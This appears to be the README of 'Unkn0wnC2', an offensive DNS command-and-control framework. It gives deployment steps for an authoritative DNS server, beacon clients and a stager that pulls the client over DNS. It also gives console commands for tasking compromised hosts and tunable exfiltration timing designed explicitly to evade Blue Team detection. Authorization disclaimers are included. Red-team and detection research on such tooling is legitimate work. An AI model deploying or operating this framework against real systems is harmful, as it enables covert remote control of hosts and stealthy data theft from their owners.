




# 🕵️ Unkn0wnC2

DNS-based Command & Control framework operating as an authoritative DNS server with encrypted C2 communications.


This DNS C2 implementation's strengths comes from it's malleable C2 timing. 

Many C2s can utilize DNS for covert communications, but the exfil/task timings aren't usually adjustable without changing code directly. This C2 allows you to change the timing of exfil during the build process. Keeping your exfil slow is key to staying stealthy as common C2s send outputs/exfil quickly, alerting Blue Teams on large ammounts of DNS traffic in a short period of time.


---

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This software is provided for educational and authorized security testing purposes only. Users must:

- ✅ Obtain explicit written authorization before deployment
- ✅ Comply with all applicable local, state, and federal laws
- ✅ Use only in controlled environments with proper authorization
- ✅ Understand that unauthorized access to computer systems is illegal

**The authors and contributors are not responsible for misuse or illegal activity. Use at your own risk.**

---

## 🚀 Quick Deployment

### 1. 🌐 Domain Setup
Configure NS records at registrar:
```
ns1.yourdomain.net  →  YOUR_SERVER_IP
ns2.yourdomain.net  →  YOUR_SERVER_IP
```
Add glue records at registrar, verify: `dig @8.8.8.8 NS yourdomain.net`

### 2. 🔨 Build
```bash
# Generate unique encryption key
openssl rand -base64 32

# Edit build_config.json - set encryption_key, domain, server IPs
vim build_config.json

# Build all components with production configuration
bash build_production.sh
```

Output will be in `build/production/`

### 3. 🖥️ Deploy Server
```bash
# Copy to target server
scp build/production/dns-server-linux user@server:/opt/unkn0wnc2/
cd /opt/unkn0wnc2

# Run (requires root for port 53, config embedded at build time)
sudo ./dns-server-linux
```

### 4. 📡 Deploy Client
**Option A - Direct:** `./dns-client-linux`  
**Option B - Stager:** `./stager-linux-x64` (downloads client via DNS)

**Production:** Change encryption key, disable debug mode, use system DNS (stealth)

---

## 🏗️ Protocol Architecture

### Communication Flow


### 🔐 Encoding Pipeline



### 📨 Message Format



### 🎭 Authoritative DNS Server Logic Flow



### Malleable Timing (stager / client / exfil)

This project exposes several timing parameters that are intentionally malleable to tune stealth vs throughput. Defaults are set in build_config.json and in the Stager build defaults.

Key parameters and defaults (units):

- Stager
  - jitter_min_ms = 1000 (1.0 s)
  - jitter_max_ms = 2000 (2.0 s)
  - chunks_per_burst = 5
  - burst_pause_ms = 12000 (12 s)
  - retry_delay_seconds = 3
  - max_retries = 5

- Client check-in
  - sleep_min = 60 (60 s)
  - sleep_max = 120 (120 s)

- Client exfil
  - exfil_jitter_min_ms = 10000 (10 s)
  - exfil_jitter_max_ms = 30000 (30 s)
  - exfil_chunks_per_burst = 5
  - exfil_burst_pause_ms = 120000 (120 s)

How the pieces interact (approximate calculations):
- Number of bursts for N chunks: bursts = ceil(N / chunks_per_burst)
- Average jitter (ms) = (jitter_min_ms + jitter_max_ms) / 2
- Stager total time ≈ N * RTT_seconds_per_chunk + bursts * ((avg_jitter_ms + burst_pause_ms) / 1000)
  - Example (stager defaults, 100 chunks): avg_jitter = 1.5 s, burst pause = 12 s → per-burst pause ≈ 13.5 s
    - bursts = 20 → pause_time ≈ 270 s
    - transfer_time ≈ 100 s → total ≈ 370 s (~6 min 10 s)

- Exfil (client) will be significantly slower with larger jitter/pause values:
  - Example (exfil defaults, 100 chunks): avg_jitter = 20 s, burst pause = 120 s → per-burst pause ≈ 140 s
    - bursts = 20 → pause_time ≈ 2800 s (~46 min 40 s)
    - transfer_time ≈ 100 s → total ≈ 2900 s (~48 min 20 s)

### Build Output
```
build/
├── dns-server-linux
├── dns-client-linux
├── dns-client-windows.exe
├── deployment_info.json
├── stager-linux-x64
└── stager-windows-x64.exe
```

---

## 🎮 C2 Console Commands

```
beacons              List all active beacons
task <id> <cmd>      Queue command for beacon
tasks                Show all tasks and status
result <task_id>     Display task output
logs                 Show log message count
status               Server status summary
clear                Clear console
exit                 Shutdown server
```

**Example Session:**
```bash
c2> beacons
ID    Hostname    Username    OS       Last Seen
a1b2  target-01   admin       Linux    2s ago

c2> task a1b2 whoami
[+] Task T1001 queued for beacon a1b2

c2> tasks
ID     Beacon  Command  Status     Created
T1001  a1b2    whoami   completed  5s ago

c2> result T1001
admin
```

---

## 🔒 Security Features

### Encryption
- **Algorithm:** AES-GCM (authenticated encryption)
- **Key derivation:** SHA256 hash of passphrase
- **Encoding:** Base36 (DNS-safe: 0-9, a-z)
- **Key matching:** Server and clients must use identical key

### Stealth
- DNS cache busting (timestamp subdomains)
- Legitimate query forwarding (traffic blending)
- Malleable check-in and exfil intervals (jitter)
- Base36 appears as random subdomain patterns
- System DNS resolver usage (blends with normal traffic)

---

## 🔧 Troubleshooting

**Server won't start (permission denied):**
```bash
# Port 53 requires root
sudo ./dns-server-linux

# Or use capability
sudo setcap CAP_NET_BIND_SERVICE=+eip ./dns-server-linux
```

**Client not checking in:**
```bash
# Verify encryption key matches server
# Check DNS delegation
dig @8.8.8.8 NS yourdomain.net

# Should return ns1/ns2.yourdomain.net pointing to YOUR_SERVER_IP
```

**Stager "No answers" errors:**
```bash
# DNS packet too large (reduce chunk size if needed)
# Current: 403 bytes (tested maximum through Google DNS)
# Edit Stager/stager.c: #define CHUNK_SIZE 300
```

**Session expiration mid-download:**
```bash
# Fixed in current version (3-hour timeout with activity tracking)
# Rebuild server if using old version
```

---

## ✅ Production Checklist

- [ ] Change encryption key from default
- [ ] Disable debug mode (`debug: false`)
- [ ] Configure domain and NS records
- [ ] Add registrar glue records
- [ ] Set proper bind address
- [ ] Copy client binary to `build/` (for stager)
- [ ] Test in isolated environment
- [ ] Verify DNS delegation working

---

## ⚙️ Build Configuration

**`build_config.json` structure:**
```json
{
  "server": {
    "bind_addr": "172.26.13.62",
    "server_address": "98.90.218.70",
    "domain": "secwolf.net",
    "debug": false
  },
  "client": {
    "server_domain": "secwolf.net",
    "dns_server": "",
    "sleep_min": 5,
    "sleep_max": 15
  },
  "security": {
    "encryption_key": "CHANGE_THIS_RANDOM_32CHAR_KEY"
  }
}
```

**Key fields:**
- `bind_addr`: Server's internal/external IP
- `server_address`: Public IP for DNS delegation
- `domain`: Your registered domain
- `dns_server`: Leave empty for system DNS (stealth), or set specific DNS
- `sleep_min/max`: Beacon check-in interval (seconds)
- `encryption_key`: **MUST MATCH** between server and clients

---

**Version:** 0.1.0  
**License:** Use for authorized security testing only  

---

## ⚠️ Final Notice

This tool is intended for **authorized security assessments and educational purposes only**. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

**The developers assume no liability for misuse of this software.**

By using this software, you acknowledge that you have obtained proper authorization and will comply with all applicable laws and regulations.

